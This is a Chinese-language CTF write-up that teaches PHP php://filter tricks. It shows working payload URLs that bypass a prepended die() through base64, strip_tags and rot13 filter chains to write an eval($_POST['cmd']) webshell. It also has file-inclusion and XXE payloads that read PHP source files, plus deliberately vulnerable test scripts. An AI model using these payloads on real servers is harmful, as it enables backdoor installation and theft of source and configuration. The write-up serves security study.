## 背景
屈总今天给了一个CTF题，看起来很简单，但是细看要是不了解file_put_contents利用技巧，这个题也解不出来，先看代码
```php
 <?php
# upload www-data rwx
if (isset($_GET['path']) && isset($_GET['data'])) {
    $data = "<?php\ndie('no php');\n?>\n";
    $content = $data.base64_decode($_GET['data']);
    echo $content;

    file_put_contents($_GET['path'], $content);
    echo 'OK';
} else{
    highlight_file(__FILE__);
}
?>

```
poc如下
```shell
http://127.0.0.1/2.php?path=php://filter/write=convert.base64-decode/resource=shell.php&data=aaaaUEQ5d2FIQWdjR2h3YVc1bWJ5Z3BPejgr
```
效果如下



通过这个题，通过使用`php://filter`来构造相关payload以达到写入webshell，来达到控制服务器的目的，但其危害并不只如此，还可以配合使用文件包含，文件读取，反序列化，XXE等组合攻击。
借此机会来学习学习，探索`php://filter`的相关姿势

## php://filter 协议利用
### 介绍
php://filter 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file() 和 file_get_contents()， 在数据流内容读取之前没有机会应用其他过滤器
php://filter 目标使用以下的参数作为它路径的一部分。 复合过滤链能够在一个路径上指定。详细使用这些参数可以参考具体范例

| 名称 | 描述 |
| --- | --- |
| resource=<要过滤的数据流> | 这个参数是必须的。它指定了你要筛选过滤的数据流。 |
| read=<读链的筛选列表> | 该参数可选。可以设定一个或多个过滤器名称，以管道符（&#124;）分隔。 |
| write=<写链的筛选列表> | 该参数可选。可以设定一个或多个过滤器名称，以管道符（&#124;）分隔。 |
| <；两个链的筛选列表> | 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。 |

### 使用
根据上述介绍的 使用方法，使用如下测试代码，来进行测试
```php
<?php
	if (isset($_GET['file1'])){
		$file1 = $_GET['file1'];
		echo file_get_contents($file1);
	}else if(isset($_GET['file2']) && isset($_GET['txt'])){
		$file2 = $_GET['file2'];
		$txt = $_GET['txt'];
		file_put_contents($file2,$txt);
	}else{
		echo 'by aaron test';
	}
?>
```
#### 读取文件
```shell
# payload 明文读取
http://localhost/test.php?file1=testfile.txt
# payload 编码读取，这里使用base64编码
http://localhost/test.php?file1=php://filter/read=convert.base64-encode/resource=testfile.txt
```







#### 写入文件
```shell
# payload 明文写入
http://localhost/test.php?file2=testfile.txt&txt=123456+by+aaron
# payload 编码写入，这里使用base64 编码
http://localhost/test.php?file2=php://filter/write=convert.base64-encode/resource=testfile.txt&txt=123456+by+aaron
```






## 分析
在了解了`filter`协议的情况下，我们来分析一下这个题，`$content`拼接了`$data`和`base64_decode($_GET['data'])`，在`$data`中，由于存在`die()`方法，而die() 函数的作用是输出一条消息，并退出当前脚本，意思是die()函数后的所有php代码都不生效，所以解这个题的核心是将`$data`变量污染，从而达到绕过`die()`函数，执行可控的php代码

### 0x1 base64 编码
[base64 编码/解码原理](/知识库/03.主机安全/03.Base64编码解码原理.md)

使用`php://filter`流的base64-decode方法，将`$content`解码，利用php base64_decode 函数特性去除`die()`函数
首先我们知道，base64编码中只包含64个字符(0-9,a-z,A-Z,+,/)，其中`=`为补位码也就是(`000000`) ，而PHP在解base64编码的时候，遇到不在其可识别的字符的时候，将会跳过这些字符，仅将合法字符组合成一个新的字符再解码
所以当`$content`被加上了`<?php die('no php'); ?>` 之后，就会有`< ? 空格 ' ; >`共计10个字符不能被识别而被忽略，最终被解码的字符只有`phpdienophp`，和我们传入的字符串`phpdienophp`字符串只有11个字节，base64解码为4字节一组，再算上我们需要编码两次的shell`<?php phpinfo();?>` = `UEQ5d2FIQWdjR2h3YVc1bWJ5Z3BPejgr`(32字节)，首先传入的字符需要base64解码一次，所以`UEQ5d2FIQWdjR2h3YVc1bWJ5Z3BPejgr`解码为`PD9waHAgcGhwaW5mbygpOz8+`(24字节)，在filter的base64解码中，`24+11=35`，`35 *6 mod 24 = -6` 那么就是说还需要可被base64认识的1字节，这1字节只能添加在编码的shell前用来闭合前面的11字节字符，使其能够通过base64编码，即`xPD9waHAgcGhwaW5mbygpOz8+`,但是题目中对传入的参数进行base64解码了1次，那么垃圾数据应该填充在`UEQ5d2FIQWdjR2h3YVc1bWJ5Z3BPejgr`这里，这个双编码的字节数为32，解码后要多1位的话，那么就需要填充4个字节为36位（`32/4*3=24`，未填充的字符解码数，要能正常解码的情况下=> `24*9/6 = 36`，解码出来的字符数为 `36/4*3=27`）

> 因为base64只识别64个字符，所以从000000-111111，而ascii码是00000000-11111111，从ascii -> base64 或者从 base64 - ascii 取最小公倍数24，所以是3字节1组编码，4字节1组解码


填充垃圾数据为`aaaaUEQ5d2FIQWdjR2h3YVc1bWJ5Z3BPejgr`，解码出来为`i��PD9waHAgcGhwaW5mbygpOz8+`,在这27位中，第2位，第3位不能被识别，那么filter的base64解码就只有25+11 = 36 位，然后就能利用成功了

那么对小马而言的话

```php
<?php eval($_POST['cmd']); ?>
// base64 双重编码
// UEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiSjJOdFpDZGRLVHNnUHo0PQ==
// 56 位，遇到==需要丢掉，所以需要-2 则 第一次解码出来的位数为 56/4*3-2=40
// 40+11=51,需要1位垃圾数据或者5位，或者4n+4-51(n>=12)
//垃圾数据aaaa解码出来3位，2位不可识别，只有1位可被识别
// 41+11=52 位 52/4*3=39
```
payload 
```php
http://127.0.0.1/2.php?path=php://filter/write=convert.base64-decode/resource=shell.php&data=aaaaUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiSjJOdFpDZGRLVHNnUHo0PQ==
http://127.0.0.1/2.php?path=php://filter/write=convert.base64-decode/resource=shell.php&data=aaaaaaaaaaaaaaaaaaaaUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiSjJOdFpDZGRLVHNnUHo0PQ==
```





### 0x2 字符串操作+base64组合拳
除了使用base64特性的方法外，我们还可以利用php://filter字符串处理方法来去除`<?php die() ?>`。我们观察一下，这个`<?php die('no php'); ?>`，实际上是一个XML标签，既然是XML标签，我们就可以利用strip_tags函数去除它，而php://filter刚好是支持这个方法的
编写如下测试代码即可查看 php://filter/read=string.strip_tags/resource=php://input 的效果：
```php
<?php
	echo readfile('php://filter/read=string.strip_tags/resource=php://input');
?>
```


可见，`<?php die('no php'); ?>`被去除了。但回到上面的题目，我们最终的目的是写入一个webshell，而写入的webshell也是php代码，如果使用strip_tags同样会被去除。
万幸的是，php://filter允许使用多个过滤器，我们可以先将webshell用base64编码。在调用完成strip_tags后再进行base64-decode。die函数在第一步被去除，而webshell在第二步被还原。

```
?path=php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php&data=UEQ5d2FIQWdjR2h3YVc1bWJ5Z3BPejgr
```







### 0x3 ROT13 编码
原理和上面类似，核心是将die()函数去除。`<?php die('no php'); ?>`在经过rot13编码后会变成`<?cuc qvr("ab cuc");>`，在PHP不开启`short_open_tag`时，php不认识这个字符串，当然也就不会执行了
payload
```
?path=php://filter/write=string.rot13/resource=shell.php&data=PD9jdWMgY3VjdmFzYigpOz4=
```





## 其他利用
### 文件包含
文件包含漏洞顾名思义即：包含恶意代码或恶意内容达到一定的攻击效果。
在文件包含漏洞当中，因为php://filter可以对所有文件进行编码处理，所以常常可以使用php://filter来包含读取一些特殊敏感的文件（配置文件、脚本文件等）以辅助后面的漏洞挖掘。

**测试代码**

```php
<?php
    $file  = $_GET['file'];
    include($file);
?>
```
payload
```
?file=php://filter/read=convert.base64-encode/resource=test.php
```


通过指定末尾的文件，可以读取经base64加密后的文件源码，虽然不能直接获取到shell等，但能读取敏感文件危害也是挺大的。同时也能够对网站源码进行审计



payload
少read关键字 ，在绕waf的时候或许有用，我也记录一下吧

```http
?file=php://filter/convert.base64-encode/resource=test.php
```



### XXE 
`php://filter`之前最常出镜的地方是XXE。由于XXE漏洞的特殊性，我们在读取HTML、PHP等文件时可能会抛出此类错误`parser error : StartTag: invalid element name `。其原因是，PHP是基于标签的脚本语言，`<?php ... ?>`这个语法也与XML相符合，所以在解析XML的时候会被误认为是XML，而其中内容（比如特殊字符）又有可能和标准XML冲突，所以导致了出错。
那么，为了读取包含有敏感信息的PHP等源文件，我们就要先将“可能引发冲突的PHP代码”编码一遍，这里就会用到php://filter。
在XXE中，我们也可以将PHP等容易引发冲突的文件流用php://filter协议流处理一遍，这样就能有效规避特殊字符造成混乱。

**测试代码**

```php
<?php
	$content = file_get_contents("php://input");
	$xml = simplexml_load_string($content);
	echo $xml->methodname;
?>
```
```xml
<?xml version="1.0" encoding="utf-8"?><!DOCTYPE xdesc [
<!ELEMENT root ANY>
<!ENTITY abc SYSTEM "php://filter/read=convert.base64-encode/resource=./xxe.php" >]>
<root>
<methodname>
&abc;
</methodname>
</root>
```





## 参考链接
[file_put_contents利用技巧(php://filter协议)](https://www.cnblogs.com/vege/p/12650702.html)

[探索php://filter在实战当中的奇技淫巧](https://www.anquanke.com/post/id/202510#h2-8)

[谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)

[php:// 协议官方文档](https://www.php.net/manual/zh/wrappers.php.php)

